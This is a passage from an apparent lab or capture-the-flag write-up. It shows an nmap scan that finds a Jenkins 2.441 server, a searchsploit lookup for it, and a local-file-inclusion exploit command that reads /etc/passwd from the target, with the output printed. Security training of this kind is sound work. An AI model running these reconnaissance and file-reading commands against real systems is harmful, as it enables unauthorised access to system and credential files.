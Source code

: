 ```shell
❯ nmap -sCV -p22,8080 -n -Pn 10.129.230.220 -oN scan2.txt
Starting Nmap 7.98 ( https://nmap.org ) at 2025-10-21 10:16 +0200
Nmap scan report for 10.129.230.220
Host is up (0.041s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.88 seconds
```

This time `nmap` scripts and banner grabbing reported us a **Jenkins** instance running in the previous port **8080**.

We can quickly realized about the Jenkins versión **2.441**: 

![](/assets/img/Anexos/Máquina%20Builder-1.png)

```shell
❯ searchsploit jenkins 2.441
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Jenkins 2.441 - Local File Inclusion                                                                                                                       | java/webapps/51993.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

After a quick vulnerability search using `searchsploit` we can see that a exploit is available in this versión, in this case a **LFI**.


```shell
❯ python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```